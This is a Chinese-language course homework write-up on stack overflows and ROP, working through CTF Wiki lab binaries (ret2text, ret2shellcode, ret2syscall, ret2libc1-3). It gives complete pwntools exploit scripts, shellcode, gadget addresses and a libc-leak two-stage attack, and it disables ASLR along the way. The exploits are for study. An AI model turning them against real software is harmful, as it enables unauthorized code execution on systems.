





# SimpleROP

国科大网络攻防基础第二次作业（2023）

## 00 概述

这次实验的主题是栈溢出+ROP。ROP的主旨就是在栈溢出的基础上利用程序中已经存在的代码片段来改变某些寄存器或者变量的值，从而实现控制程序的执行流程。一般前提为：

* 程序中存在栈溢出漏洞，可以控制返回地址
* 可以找到满足条件的程序片段以及其地址

### 分析对象

来自[简介 - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/)：

* ret2text
* ret2shellcode
* ret2syscall
* ret2libc 1/2/3

### 实验环境

* VMware 17
* Ubuntu 22.04
* IDA 8.2 (Free)
* PwnTools 4.2
* GDB 12.1

### 需要的知识

#### GOT和PLT

* GOT：全局偏移量表，位于程序的数据段，每个条目8字节，用来存储外部函数（动态链接过来的那些函数）在内存里面的地址，可以在程序运行中被修改，这是因为默认情况下程序只有在需要调用时才导入函数，而不是在一开始就把所有需要用到的函数全部放进表里面。
* PLT：过程链接表：位于程序的代码段，每个条目16字节，前两条是特殊条目，分别用于跳转到动态链接器和记录系统启动函数，其余的条目负责调用一个具体的函数（存储外部函数的入口点，也就是这个函数在GOT表的位置）
* 攻击流程：
    * 确定printf函数在GOT表中的位置：程序在正常执行调用printf函数时通过PLT表跳转到GOT表的指定条目，此时可以通过对应的汇编指令看到这个位置（当然这样一来printf函数在内存中的实际地址也能知道）
    * 确定system函数在内存中的位置：开启堆栈随机化（ASLR）之后动态链接库在内存的位置是随机的，但是一个函数在其所在的链接库内部的相对地址是不变的，如果printf函数和system函数位于同一个动态链接库，那就可以通过printf在内存中的地址+两个函数在动态链接库内的偏移得到system函数在内存中的实际位置
    * 把system函数在内存中的位置值写入printf函数在GOT表中的位置
    * 程序调用printf函数时，通过PLT表跳转到GOT表的对应条目，但是那里已经被覆写，调用的函数实际上是system而不是printf

#### RELRO

让重定位表只读，避免GOT被恶意修改。RERLO有两种形式：

* 部分RELRO：.init_array、.fini_array、.jcr、.dynamic这些表一次性加载，然后变成只读；.got只读；.got.plt依然可写
* 前部RELRO：全都不准写！这样会导致所有符号在程序开始的时候导入，性能和时间开销大

#### Stack Canary

函数执行之前在栈的EBP附近插入一个值，如果被溢出攻击，那这个值就有可能被覆盖

#### NX/DEP

数据段不可执行，数据段可以执行，那么就可以将自己的代码随便放在数据段的某个变量里，然后再用溢出使得函数返回到那个数据段的起始地址。开启NX之后，如果程序发现自己返回到了数据段就会终止运行。因此衍生出了ROP攻击，即利用代码段自带的片段拼凑出攻击逻辑。

#### PIE

地址无关的可执行文件。

正常情况下，内存是这样子的：

* 内核虚拟地址空间（所有进程共享，但是用户空间代码不可见）
* 栈：函数
* 动态映射段（动态库在这里）
* 堆：动态申请的变量
* BSS段：未初始化的变量
* 数据段：静态/全局变量
* 代码段：汇编代码，还有一些字面值变量

开启PIE之后，这些段全部打散，通过GOT来登记其实际位置。

## 01 ret2text

需要的代码都在程序之中，将四散的代码“组装起来”就可以获取Shell。

使用PwnTool附带的checksec工会据查看二进制文件基本信息：


可以看到：

* 架构：32位小端程序（须在系统中安装32位兼容库）
* RELRO：部分开启
* 金丝雀：没有开启
* 数据段不可执行：开启
* 地址无关：没有开启

现在用IDA反编译二进制文件看一下可以利用的代码片段：


首先是主函数中一个显眼的gets()函数，说明可以通过变量v4来实现栈溢出。



然后是secure()函数里面有一个可以直接利用的代码段：

* `MOV X Y`：代表把Y寄存器里卖弄的东西复制到X寄存器
* `CALL F`：代表调用函数（或者叫过程）F，这个函数被记录在PLT表里面


其地址为：0x0804863A

附：PLT表中的`_system`函数：


附：PLT表指向的GOT表中`_system`函数的真实内存地址：




但是在这里不需要直接操作system()函数，因为想要的参数和指令已经存在于代码段了，因此现在的任务就是通过gets()将main()函数的返回地址指向0x0804863A。最简单粗暴的方式就是往里面输入超长的数据（从主函数的反编译代码里可以看出来其流程就是接受一个输入数据放进变量v4），导致数据溢出覆盖返回地址，让程序报错，通过报错信息来确定返回地址的位置。在IDA反编译代码中已经标注了了变量v4的位置是【ESP+1】【EBP-64】，但是我这个免费版的IDA只有64位，不知道分析32位二进制程序能不能行得通，所以后面尝试用更简单粗暴的方式确认一下：通过get()向变量v4填入超多垃圾数据，在GDB调试中观察报错信息：


使用`cyclic 200`生成了一个长为200的无序字符串，输入到程序当中去。可以看到EBP、ESP、EIP全都被覆盖了，其中EIP被覆盖就是因为main()的函数栈帧中返回地址被变成了“daab”，也就是0x61626264，main()函数返回之后将返回地址放到EIP寄存器，程序跳转到这个位置发现有问题，所以输出“Invalid address 0x61626264”。因此，子串“ddab”相较于之前输入的200字节长无序字符串的位置就是变量v4到main()函数栈帧返回地址的偏移量。cyclic小工具很贴心的有这个功能，通过`cyclic -l daab`就可以得出这个距离了：112，即从变量v4的屁股到返回地址的屁股之间有112个字节，我们向变量v4填入112个垃圾字节，再填入代表system()函数代码位置的0x804863A这四个字节，就可以让main()返回到system()函数那里了。

开始编写脚本：

```python
from pwn import *


# 创建进程对象
proc = process("./ret2text")

# 目标返回地址
target_addr = 0x804863A

# 字节形式的填充以及32位形式目标地址
proc.sendline(b"#" * 112 + p32(target_addr))

# 交互式界面
proc.interactive()
```

输出结果：


成功启动了Shell！我尝试将ret2text文件设置为setuid然后再进行相同的攻击，但是并没有得到root权限的shell，等有时间再研究一下。

## 02 ret2shellcode


啥都没开，对味了。我还尝试在Ubuntu 22.04下随便用GCC编译了一个C程序，看一下默认的安全策略，结果全绿，顿时感觉自己现在就是在路边玩泥巴...

反编译的main()函数代码如下：


流程和上一个实验相似，但是没有现成的system("/bin/sh")可以用了，需要人工构造。而这个人工构造的shellcode需要放在一个能持续存在的地方（不能放在临时变量里面，因为mian()函数返回之后栈帧里的数据就弹出去了），因此候选目标是未释放的堆/BSS段/DATA段。“恰好”main()函数里面变量v4的值会被复制到缓冲区buf2里面，通过IDA可以看到buf2位于BSS段：


因为`strncpy(buf2, v4, 100)`，我们输入的数据的前100个字节就会被直接放到BSS段的0x0804A080这个位置，足够放下一段shellcode。那么需要输入到变量v4的数据就是“shellcode+填充+0x0804A080”。

下一步就是确定“shellcode+填充”的总长度，和之前一样，使用cyclic：


在EIP寄存器的值还是“daab”，也就是说变量v4到main()函数栈帧返回地址的距离和上一个实验一样，还是112字节。

下面来构造脚本：

```python
from pwn import *


pwn_obj = process("./ret2shellcode")
shellcode = asm(shellcraft.sh()).ljust(112, b"\x00") # 总长度112，左对齐
target_addr = 0x0804A080
pwn_obj.sendline(shellcode + p32(target_addr))
pwn_obj.interactive()
```

执行结果：


图中的红色dollar符号是pwntools自带的，并不是成功获取到了shell，出大问题了，开始检查...

首先是shellcode本身：

```
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80####################################################################'
```

```
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx, esp
/* push argument array ['sh\x00'] */
/* push 'sh\x00\x00' */
push 0x1010101
xor dword ptr [esp], 0x1016972
xor ecx, ecx
push ecx /* null terminate */
push 4
pop ecx
add ecx, esp
push ecx /* 'sh\x00' */
mov ecx, esp
xor edx, edx
/* call execve() */
push SYS_execve /* 0xb */
pop eax
int 0x80
```

是使用execve调用shell的很正常的shellcode。

然后检查一下buf2那里是不是不可执行，使用`breakpoint main`在main函数那里打断点，`run`运行到断点之后使用`vmmap`查看内存情况：


缓冲区buf2位于0x0804A080，在区间0x804a000~0x804b000内，这个区间的内存的信息显示在第三行，可以读写，但是不能执行。原来是自从Linux内核5.x之后，内存的BSS段默认没有可执行权限。

想要解决这个问题，需要使用`mprotect()`函数来改写BSS段的权限：

```c
#include <unistd.h>
#include <sys/mman.h>

int mprotect(const void* start, size_t len, int prot)
```

参数含义如下：

* start：目标内存页的起始地址
* len：目标内存的长度，需要是内存页大小的整数倍
* prot：保护属性，有四种：可读、可写、可执行、不可访问

因为有三个参数，所以在构造负载的时候需要用到已经存在于程序代码中的“pop pop pop ret”序列：


可以看到在0x0804862d这里存在合适的代码片段。

然后就是找到mprotect的入口了：

```python
elf = ELF("./ret2shellcode")
for k, v in elf.symbols.items():
    print(f"{k}: {v}")
```

```
stdout: 134520928
_IO_stdin_used: 134514268
stdin: 134520896
: 134520896
__JCR_LIST__: 134520592
deregister_tm_clones: 134513776
register_tm_clones: 134513824
__do_global_dtors_aux: 134513888
completed.6591: 134520932
__do_global_dtors_aux_fini_array_entry: 134520588
frame_dummy: 134513920
__frame_dummy_init_array_entry: 134520584
__FRAME_END__: 134514532
__JCR_END__: 134520592
__init_array_end: 134520588
_DYNAMIC: 134520596
__init_array_start: 134520584
_GLOBAL_OFFSET_TABLE_: 134520832
__libc_csu_fini: 134514240
__x86.get_pc_thunk.bx: 134513760
data_start: 134520872
_edata: 134520880
_fini: 134514244
buf2: 134520960
__data_start: 134520872
__dso_handle: 134520876
__libc_csu_init: 134514128
stdin@@GLIBC_2.0: 134520896
_end: 134521060
_start: 134513712
_fp_hw: 134514264
stdout@@GLIBC_2.0: 134520928
__bss_start: 134520880
main: 134513965
__TMC_END__: 134520880
_init: 134513540
printf: 134513600
plt.printf: 134513600
gets: 134513616
plt.gets: 134513616
puts: 134513632
plt.puts: 134513632
__gmon_start__: 134513648
plt.__gmon_start__: 134513648
__libc_start_main: 134513664
plt.__libc_start_main: 134513664
setvbuf: 134513680
plt.setvbuf: 134513680
strncpy: 134513696
plt.strncpy: 134513696
got.__gmon_start__: 134520856
got.stdin: 134520896
got.stdout: 134520928
got.printf: 134520844
got.gets: 134520848
got.puts: 134520852
got.__libc_start_main: 134520860
got.setvbuf: 134520864
got.strncpy: 134520868
```

然后发现程序中不存在mprotect...寄。但是程序动态链接了`libc.so.6`且存在puts()函数，应该可以通过定位libc来达成目标。

但是停停，既然没有开NX为什么不直接把shellcode放到上一层的栈帧里面呢？

新策略是直接把112字节填满，然后依次放入上一个栈帧的ESP以及shellcode，这样shellcode放到了上一个栈帧的屁股上，也就是其ESP的位置。

```python
pwn_obj = process("./ret2shellcode")
target_addr = 外层ESP
payload = b"#" * 112 + p32(target_addr) + asm(shellcraft.sh())
pwn_obj.sendline(payload)
pwn_obj.interactive()
```

但是这代表需要覆盖main()函数的外一层，按照gdb的信息就是__libc_start_call_main，但是我试了很久也没有成功，gdb给出的外部ESP也已经不在0xfffdd000~0xffffe000的栈地址范围内了，而且感觉对系统不太好，如果gets()外一层不是main()，而是一个随便啥函数应该也一样。所以现在重新编写一个C语言程序来观察一下这个猜想是否正确：

```c
#include <stdio.h>

void func() {
    char func_buf[100];
    printf("this is ret2shellcode.mtx! gets: ");
    gets(func_buf);
    puts("goodbye");
}

int main() {
    char main_buf[100] = {0};
    func();
    return 0;
}
```

通过`gcc ret2shellcode.c -o ret2shellcode -m32 -g -fno-stack-protector -no-pie -z execstack`进行编译之后重新尝试分析：

因为buf大小和之前去的一样所以偏差依旧是112字节，但这回变量buf是函数func()的临时变量，按照dbg给出的栈信息，当程序运行到func()函数时，内存中的栈结构应该是这样子的：


因此输入的数据应该是：

* 112字节填充
* 4字节的返回地址0xffffcec6
* 16字节填充
* 44字节shellcode

但是在测试后发现仍然失败，原因是Linux默认开启的ASLR，gdb工具在调试二进制文件的时候会关闭地址的随机化，但是在外部执行时堆栈位置不固定，也就是说返回地址0xffffcec6在真实环境下是无效的，因为剩下的时间有限（而且还要给导师和组里的师兄打工），这里就直接尝试被关闭ASLR，不再进行尝试利用libc动态链接获取mprotect()函数的实验。

首先通过`sysctl kernel.randomize_va_space=0`来关闭堆和栈的地址随机化，重新进入gdb来调试：


通过pwntools实例化进程并且调用gdb在func()函数插入断点，多次测试确认对战随机化已经关闭之后获取EBP为0xffffce88，按照之前的手画栈结构图，目标返回值的地址应该是当前的EBP加上16个字节，也就是0xffffce9c，修改目标地址后使用下面的代码进行测试：

```python
from pwn import *


context.arch = "i386"
context.os = "linux"
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
context.log_level='debug'

pwn_obj = gdb.debug("./ret2shellcode", "b puts")
target_addr = 0xffffce9c
payload = b"#" * 112 + p32(target_addr) + b"#" * 12 + asm(shellcraft.sh())
pwn_obj.sendline(payload)
pwn_obj.interactive()
```


👆步进到func()函数即将结束时，可以看到此时func()函数的外一层已经不是main()函数，而是0xffffce9c这个地址，而从这个地址开始就是`push 0x86`，也就是shellcode的起始语句了，到最后执行`int 0x80`，就可以获取到shell了：👇


执行玩这条汇编语句，gdb就炸了，因为shellcode就只是shellcode，没有清理痕迹，但是在外部已经可以成功获取到shell了（因为打开了pwntools的dubug所以显得有点乱）：


好耶！

## 03 ret2syscall

例行检查：


这次没有现成的`system(/bin/sh)`可以利用，同时也不能像ret2shellcode一样将shellcode放在可执行的内存区块里面。这个实验的目标是将系统调用编号放进EAX寄存器，将调用的参数放进EBX、ECX...寄存器，再用`INT 80`汇编指令执行。

那么应该如何将数据放到指定的寄存器里面呢？方法就是在二进制程序的汇编代码段里面找到`POP EAX`这样的代码片段，代表将栈顶的一个字节（32位系统中）弹出放到EAX寄存器里面。如果有多个参数同时弹栈，则会展现出`POP EDX; POP ECX; POP EBX`这样反着来的形式，因为在栈里面越靠后的参数越靠近栈顶。最后，`RET`指令可以让栈顶字节弹出，并且跳转到那里。

这里使用的系统调用和之前ret2shellcode一样，是`execve("/bin/sh", NULL, NULL)`，execve的系统调用号是11，计划放进EAX寄存器；三个参数一次放进EBX、ECX、EDX寄存器，当然放进EBX的数据不是"/bin/sh"字符串而是其在内存中的地址，这也代表了如果程序段中不存在"/bin/sh"字符串的话难度就完全不是一个级别了。总之，现在的目标就是：


图中引号括起来的部分不代表字符串，代表对应指令在代码段中地址。进行这样的溢出攻击之后，程序的流程及会变成这样（以下面红色的方案为例）：

* main()函数结束，返回到代码段`POP EAX; RET`（此时main()函数返回同样调用了RET指令，因此此时栈顶是execve的调用号）。首先执行`POP EAX`将execve的调用号弹出并放进EAX寄存器中；然后执行`RET`将当前的栈顶字节弹出并跳转到这个字节所记录的地址。
* 弹出的返回地址就是指令段`POP EDX; POP ECX; POP EBX; RET`的地址，按照语句顺序依次弹出NULL、NULL、“/bin/sh”地址到EDX、ECX、EBX寄存器中，然后再弹出栈顶字节并返回到该字节指向的地址。
* 最后一个代码段就是`INT 0x80`，执行系统调用的最后一句话。

好了，现在只需要把几个语句再代码段中的地址找出来就好了，然后组合起来再加上前置的112字节填充就可以咯！(通过file命令可见看到这个ret2syscall是静态链接的，这就代表它include的库的所有代码都会复制到他的代码段，这样子就很容易找到攻击需要的代码段了)


这里使用PwnTools提供的ROPgadget工具然找到想要的代码段所在的位置：


完美到好像是特意准备的呢！（叹息）总之地址找到了，开始写脚本：

```python
from pwn import *


code_execve = 11
addr_pop_eax_ret = 0x080bb196
addr_pop_edx_pop_ecx_pop_ebx_ret = 0x0806eb90
addr_bin_sh = 0x080be408
addr_int_0x80 = 0x08049421

pwn_obj = process("./ret2syscall")
pwn_obj.sendline(
    b"#" * 112 + 
    p32(addr_pop_eax_ret) + 
    p32(code_execve) + 
    p32(addr_pop_edx_pop_ecx_pop_ebx_ret) + 
    p32(0) + 
    p32(0) + 
    p32(addr_bin_sh) + 
    p32(addr_int_0x80))
pwn_obj.interactive()
```

看看效果：


## 04 ret2libc-1

例行检查：堆栈不可执行、动态链接形式。


反编译结果：main()函数中存在可攻击缓冲区v4，secure()函数中存在system()函数，但是参数不是想要的。




理论上只需要将内存中system()函数的参数"shell!?"的地址替换成程序中存在的一个"/bin/sh"的地址，再实现ret2text就可以了。先试着找找有没有现成的"/bin/sh"字符串：


然后定位一下system()函数的位置：


让main()函数返回到PLT表中的system@plt函数位置即可，因为GOT表中只有一个地址，没有汇编指令，PLT表对应位置的指令就是“跳转到GOT表中保存的地址”，因此在这里main()函数的返回地址应该是PLT表的表项。需要注意的是，system()函数是通过`CALL`调用的，和上一个实验中直接`RET`到代码段不同：


像这样`CALL F`会产生一个新的栈帧，原来的EIP被保存到新栈帧的返回地址那里，因此正常情况下新栈帧返回地址指向的汇编指令应该是`CALL F`的下一条。在这个实验中，返回地址是伪造的，我期望的是在main()函数返回之后原地产生system()函数的栈帧，因此和上一个实验中的【从原main返回地址开始：指令地址、参数、下一条指令的地址、参数】不同，这里应该是【从原main返回地址开始：system@plt地址、system返回地址、参数】，区别就是因为`CALL`会有一个额外的压栈，我通过`RET`直接跳转到system()函数之后缺了这一步，所以应该在这里给他补上。

不过我现在并不关心system会返回到哪里，所以就一块给填充上了：

```python
from pwn import *


# ret2libc1
addr_system_plt = 0x08048460
addr_bin_sh = 0x08048720

pwn_obj = process("./ret2libc1")
pwn_obj.sendline(
    b"#" * 112 + 
    p32(addr_system_plt) + 
    b"#" * 4 + 
    p32(addr_bin_sh))
pwn_obj.interactive()
```

我还在网上找到一种更高效的地址搜索方法：

```python
from pwn import *


# ret2libc1
elf = ELF("./ret2libc1")
addr_system_plt = elf.plt["system"]
addr_bin_sh = next(elf.search(b"/bin/sh"))

pwn_obj = process("./ret2libc1")
pwn_obj.sendline(
    b"#" * 112 + 
    p32(addr_system_plt) + 
    b"#" * 4 + 
    p32(addr_bin_sh))
pwn_obj.interactive()
```

两种方法都有效：


## 05 ret2libc-2

例行检查：





没有现成的“/bin/sh”字符串可以用了，需要手动写入。参考ret2shellcode那里，可以把外部数据写入BSS段，而且这次写入的只是字符串而不是汇编指令，BSS不可执行对此没有影响。用IDA可以看到BSS段里面依旧存在可以利用的缓冲区。


这次没有现成的strncpy()函数可以利用，但是可以通过和上一个实验类似的方式调用gets()函数，其参数为BSS段缓冲区buf2的地址：



在gets()函数被执行之后，main()的返回地址（被替换成了gets()的地址）以及gets()的返回地址会被`RET`指令弹出，但是gets()的参数还留在栈顶，需要清除掉后再放入system()的返回地址和参数（system的地址就是gets()的返回地址）。理论上的方案是现在代码段中找到`POP`指令插入到gets()和system()之间，但是我觉得反正system()并不在乎返回地址，就干脆直接用遗留下来的gets()参数得了。因此shellcode方案就是：

* 112字节填充
* gets函数地址：elf.plt["gets"]
* gets函数返回地址：system函数的地址：elf.plt["system"]
* gets参数：buf2地址：elf.symbol["buf2"]
* system参数：buf2地址：elf.symbol["buf2"]

然后在送入一个“/bin/sh”作为gets()函数的输入：

```python
from pwn import *


# ret2libc2
elf = ELF("./ret2libc2")
addr_system_plt = elf.plt["system"]
addr_gets_plt = elf.plt["gets"]
addr_buf2 = elf.symbols["buf2"]

pwn_obj = process("./ret2libc2")
pwn_obj.sendline(
    b"#" * 112 + 
    p32(addr_gets_plt) + 
    p32(addr_system_plt) + 
    p32(addr_buf2) + 
    p32(addr_buf2))
pwn_obj.sendline(b"/bin/sh")
pwn_obj.interactive()
```

看看效果：


## 06 ret2libc-3

例行检查：


在上一个实验的基础上，这次PLT表没有可以利用的system()函数了。解决方案是从GOT表入手：虽然动态链接库libc.so在内存中的地址不确定，但是PLT表/GOT表中记录了libc.so库中其他函数的信息，例如puts()函数或者\_\_libc\_start\_main()函数，而库内函数之间的相对位置是不变的。同样的，“/bin/sh”字符串也可以在libc.so中找到。

附：ASLR随机化不会影响地址的后12个比特，因为内存中需要对齐。因此获取到库函数在某次程序执行时的真实地址之后，获取其后12比特，就可以在网站https://libc.blukat.me上根据libc库版本、函数名以及后12比特特征来定位其相对位置了。

由于GOT表的懒加载，在某个函数调用之前GOT表中是没有这个函数的实际地址的（这个时候GOT表中放着的实际上是PLT表项的地址），相对的，懒加载的GOT表是可以读写的，现在的目标就是在某个libc库函数执行之后得到其在GOT表中的地址，通过先验的libc库内函数相对位置关系，得到system()函数和字符串“/bin/sh”的实际内存地址。

那么如何在程序运行时得到GOT表的信息呢（IDA是静态分析，其GOT表是初始状态），这里需要用到已经存在于程序PLT表中的puts()函数，例如现在程序已经执行过\_\_libc\_start\_main()函数，其GOT表项已经加载其真实内存地址，将这个地址作为puts()函数的参数输出到程序外部，计算出此时system()函数汇编指令和字符串“/bin/sh”的内存地址，再让程序重新返回main()函数，进行第二次栈溢出：


上图中没有用\_\_libc\_start\_main@got，而是puts@got，没啥特变的原因，就是因为前者太长了，反正puts()函数在这个时候也已经在GOT表中登记在册了，都可以用。实现的脚本如下：

```python
from pwn import *


# ret2libc3 - stage 01
elf = ELF("./ret2libc3")
import random
addr_puts_plt = elf.plt["puts"]
for x in random.sample(elf.got.keys(), 8):
    addr_x = elf.got[x]

    pwn_obj = process("./ret2libc3")
    pwn_obj.sendlineafter(
        b"!?", 
        b"#" * 112 + 
        p32(addr_puts_plt) + 
        b"#" * 4 + 
        p32(addr_x))
    print(f"[#] {x} addr: {hex(u32(pwn_obj.recv(4)))}")
```

上面是确定libc版本的脚本，这里进行了独立的多次溢出，分别输出了随机选择的几个函数的实际地址（目的是想缩小一下查找范围），结果是：


我还尝试了其他库函数，但是也没能区别出来到底是这两个库中的哪一个（我看他版本也挨得很近，可能就是换了个名字），这里取第一个库作为实验对象，其函数偏移量如下：


可以得到system()函数和字符串“/bin/sh”的偏移量分别为0x048150和0x1bd0f5，puts()函数则是0x073260。这代表system()函数在puts()函数的176400字节之前，字符串“/bin/sh”在puts()函数的1351317字节之后。

下面按照之前的架构图实现重新返回main()函数进行二次溢出的脚本：

```python
from pwn import *


# ret2libc3 - stage 02
elf = ELF("./ret2libc3")
addr_puts_plt = elf.plt["puts"]
addr_puts_got = elf.got["puts"]
addr_main_plt = elf.symbols["_start"] # main()函数的真正起始点是_start()函数
puts_to_system = -176400
puts_to_binsh = 1351317

pwn_obj = process("./ret2libc3")
pwn_obj.sendlineafter(
    b"!?", 
    b"#" * 112 + 
    p32(addr_puts_plt) + 
    p32(addr_main_plt) + 
    p32(addr_puts_got))

addr_puts_memory = u32(pwn_obj.recv(4))
addr_system_memory = addr_puts_memory + puts_to_system
addr_binsh_memory = addr_puts_memory + puts_to_binsh
pwn_obj.sendlineafter(
    b"!?", 
    b"#" * 112 + 
    p32(addr_system_memory) + 
    b"#" * 4 + 
    p32(addr_binsh_memory))

pwn_obj.interactive()
```

看看效果：


好耶！
